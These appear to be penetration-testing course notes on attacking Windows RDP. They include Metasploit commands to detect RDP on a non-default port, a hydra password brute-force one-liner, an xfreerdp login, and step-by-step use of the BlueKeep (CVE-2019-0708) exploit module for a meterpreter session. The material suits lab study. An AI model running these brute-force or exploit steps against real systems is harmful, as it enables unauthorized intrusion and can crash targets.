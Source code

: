 ```yaml
---
description: '3389'
---
```


# 3 - Exploiting RDP

## **Exploiting RDP**

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default, and can be configured to run on any other TCP port.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.



## **Practical Demonstration**

RDP can be configured on another port instead of the default port 3389, in this case port 3333.

```bash
# we can use a metasploit module to check if a port is RDP port
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
options
set RHOSTS $ip
set RPORT 3333 # set this to the value you are doubtful of.
run
# we detected that RDP is running on that port.
```

In order to authenticate/login via RDP, we need valid credentials, so we can use bruteforce to obtain these credentials.

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt rdp://$ip -s 3333` - specify the port with the `-s` .&#x20;

### Using \[xfreerdp] utility to login via rdp

`xfreerdp /u:administrator /p:quertyuiop /v:$ip:3333` - Connect to target machine via RDP with correct credentials.



## Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)

### **CVE-2019-0708 - BlueKeep**

* BlueKeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attacker to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target is a part of.
* The BlueKeep vulnerability was made public by Microsoft in May 2019.
* The BlueKeep exploit takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
* Microsoft released a patch for this vulnerability on May 14th 2019 and has urged companies to patch this vulnerability as soon as possible.
* At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
* The BlueKeep vulnerability affects multiple versions of Windows:
  * XP
  * Vista
  * Windows 7
  * Windows Server 2008 & R2

### **CVE-2019-0708 - BlueKeep Exploit**

* The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
* The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

### **Practical Demonstration**

{% code overflow="wrap" %}
```bash
# 1
# Check if the target system is vulnerable to the BlueKeep vulnerability.
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS $ip
run

# 2
# Exploit for the BlueKeep vulnerability (You have to set the target OS version..
# .. yourself) (show targets)
# this exploit works on only 64bit windows system.
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
options
set RHOSTS $ip
set LHOST $kali_ip
show targets # select your target system.
# If the CHUNK GROOM (kernel memory) size is too high, the target system will crash.
run
# we might get a metepreter session.
```
{% endcode %}



